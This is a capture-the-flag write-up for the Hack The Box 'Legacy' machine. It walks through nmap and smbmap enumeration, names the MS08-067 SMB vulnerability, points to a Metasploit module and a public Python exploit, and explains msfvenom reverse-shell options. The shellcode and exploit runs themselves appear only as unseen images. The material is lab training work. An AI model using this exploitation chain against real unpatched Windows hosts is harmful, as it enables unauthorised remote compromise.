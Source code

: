```yaml
---
"title": "Hack The Box - Legacy"
"date": 2020-02-25
"tags": ["windows", "easy", "smb", "ms08-067"]
"keywords": ["windows", "easy", "smb", "ms08-067"]
"author": "Ghostbyt3"
"description": "We are going to pwn Legacy from Hack The Box. Which is a windows box\
  \ based on smb exploit and I have explained in two methods."
"featured_image": "/img/htb-legacy/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-legacy/1.png)

We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods.

Link : [https://www.hackthebox.eu/home/machines/profile/2](https://www.hackthebox.eu/home/machines/profile/2)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m32s, deviation: 1h24m50s, median: -4h58m32s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: [unknown](unknown), NetBIOS MAC: 00:50:56:b9:1d:23 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-24T14:47:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## SMB:

Started with ``smbmap`` to check if there is any file.

```
root@w0lf# smbmap -H 10.10.10.4
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.4...
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
        Disk                                                    Permissions
        ----                                                    -----------
[!] Access Denied
```

I tried the nmap scripts to check for vulnerabilities. Since the OS is Windows XP there must be.

```
root@w0lf# nmap --script smb-vuln* -p 445 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 19:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```
So the box is vulnerable to SMB exploit ``ms08-067``

```
ms - Microsoft
08 - The year of the patch was released i.e 2008
067 - The patch number i.e 067
```
> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

## Method 1:

> use exploit/windows/smb/ms08_067_netapi

![Untitled](/img/htb-legacy/2.png)

By using this method we can get the root shell easily.

## Method 2 (Without Metasploit):

> https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

From the exploit, first we need to create shellcode with ``msfvenom``
![Untitled](/img/htb-legacy/3.png)

```
-p This will connect back to me with a shell.
-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.
-f py - The output in python format.
-v shellcode - Specify a custom variable name to use for certain output formats
-a x86 and --platform windows - Describing the environment I’m attacking.
```


I created mine using the example.
![Untitled](/img/htb-legacy/4.png)

I replaced my shellcode here 

![Untitled](/img/htb-legacy/5.png)

So we need to enter OS version we already know its ``Windows XP`` so I used ``6``
![Untitled](/img/htb-legacy/6.png)

![Untitled](/img/htb-legacy/7.png)

Started my listener on background.

![Untitled](/img/htb-legacy/8.png)


```
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69....................
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993.....................
````


